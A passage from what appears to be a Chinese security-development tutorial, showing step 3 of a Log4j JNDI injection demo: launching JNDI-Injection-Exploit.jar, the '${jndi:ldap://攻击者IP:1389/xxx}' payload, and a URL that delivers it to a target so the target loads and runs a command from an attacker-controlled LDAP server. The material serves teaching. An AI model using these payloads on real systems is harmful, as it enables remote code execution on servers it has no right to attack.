 
3. **利用JNDI工具执行攻击**：  
   攻击者使用JNDI注入工具（如`JNDI-Injection-Exploit.jar`）搭建恶意服务器：  
   ```bash
   java -jar JNDI-Injection-Exploit.jar -C "calc" -A 攻击者IP  # -C指定执行命令（打开计算器），-A指定攻击者IP
   ```
   工具生成Payload（如`${jndi:ldap://攻击者IP:1389/xxx}`），通过URL传入目标：  
   `http://目标IP:8080/log4j?code=${jndi:ldap://攻击者IP:1389/xxx}`  
   目标执行日志记录时解析Payload，访问恶意LDAP服务器，加载并执行`calc`命令。

   攻击流程示意图：  
   ![cc606374129f879a513ad26ee892356a](036安全开发.assets/cc606374129f879a513ad26ee892356a.png)  
   ![254a05489ca61bbaded0ac23c53d09b6](036安全开发.assets/254a05489ca61bbaded0ac23c53d09b6.png)  
   ![image-20250812154414987](036安全开发.assets/image-20250812154414987.png)  